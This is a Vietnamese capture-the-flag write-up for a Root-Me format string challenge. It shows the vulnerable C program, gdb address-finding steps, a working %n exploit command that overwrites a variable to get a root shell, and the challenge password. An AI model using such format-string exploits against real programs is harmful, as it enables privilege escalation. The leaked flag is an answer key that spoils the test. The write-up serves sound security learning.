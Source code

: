 # ELF x86 - Format string bug basic 2

```c
#include <stdio.h>
#include <stdlib.h>
#include <sys/types.h>
#include <unistd.h>
 
int main( int argc, char ** argv )
 
{
 
        int var;
        int check  = 0x04030201;
 
        char fmt[128];
 
        if (argc <2)
                exit(0);
 
        memset( fmt, 0, sizeof(fmt) );
 
        printf( "check at 0x%x\n", &check );
        printf( "argv[1] = [%s]\n", argv[1] );
 
        snprintf( fmt, sizeof(fmt), argv[1] );
 
        if ((check != 0x04030201) && (check != 0xdeadbeef))    
                printf ("\nYou are on the right way !\n");
 
        printf( "fmt=[%s]\n", fmt );
        printf( "check=0x%x\n", check );
 
        if (check==0xdeadbeef)
        {
                printf("Yeah dude ! You win !\n");
                setreuid(geteuid(), geteuid());
                system("/bin/bash");
        }
}
```

Bài này có lỗi format string ở hàm `snprintf(fmt, sizeof(fmt, argv[1])`, hàm `snprintf` tiến hành tạo chuỗi từ format `argv[1]` và lưu vào biến `fmt`, vì thế chúng ta có thể lợi dụng `format %n` để ghi đè vào biến `check` thành `0xdeadbeef` và lấy được shell. Đầu tiên dùng gdb để tìm địa chỉ biến `check`.

![](images/2.png)

Ta thấy ở đây biến `check` nằm ở địa chỉ `ebp – 0xa0`, tiến hành đặt breakpoint ngay dòng lệnh và tìm địa chỉ chính xác của `check`.

![](images/3.png)

Ta thấy `ebp` khi được mov có giá trị là `0xbffffa68`, từ đó ta tính được địa chỉ của `check` là `0xbffff9e8`. Bây giờ ta cần ghi đè vào đó giá trị `0xdeadbeef`, đây là một giá trị lớn vì thế ta cần chia làm 2 lần ghi đè, lần 1 ta đè `0xbeef` vào 2 byte thấp và lần 2 ta ghi đè `0xdead` vào 2 byte cao của biến `check`.

Sử dụng cách cũ như bài trước, ta tìm được offset bắt đầu của chuỗi fmt là 

`(0xc8 - 0x9c) / 4 - 3 = 8`

Exploit của ta sẽ như sau:

```bash
./ch14 $(python -c "print '\xe8\xf9\xff\xbf' + 'A' * 4 + '\xea\xf9\xff\xbf' + '%x' * 7 + '%48832x' + '%n' + '%8126x' + '%n'")
```

Vì rootme không có cơ chế xác định chính xác offset nên việc này trở nên khá cồng kềnh và gây khó chịu. Đầu tiên ta ghi 2 địa chỉ vào 2 vị trí đầu tiên của chuỗi, cách nhau bởi 4 kí tự ‘A’ để ta có thể dùng nó padding thêm cho địa chỉ sau. Ta dùng 7 lần `%x` để tiến đến offset thứ 8. Sau đó dùng `%48832$x` để tạo ra chuỗi có 48832 kí tự cộng thêm 47 kí tự trước đó đã in ta đạt đủ `0xbeef` kí tự. Sau đó ta tiến hành ghi đè `0xbeef` lên địa chỉ `0xbffff9e8`, padding chuỗi thêm 8126 kí tự để nó đạt đủ và ghi đè `0xdead` lên địa chỉ `0xbffff9ea`. Như vậy ta đã đổi biến `check = 0xdeadbeef` thành công.

![](images/4.png)

Password là: `1l1k3p0Rn&P0pC0rn`



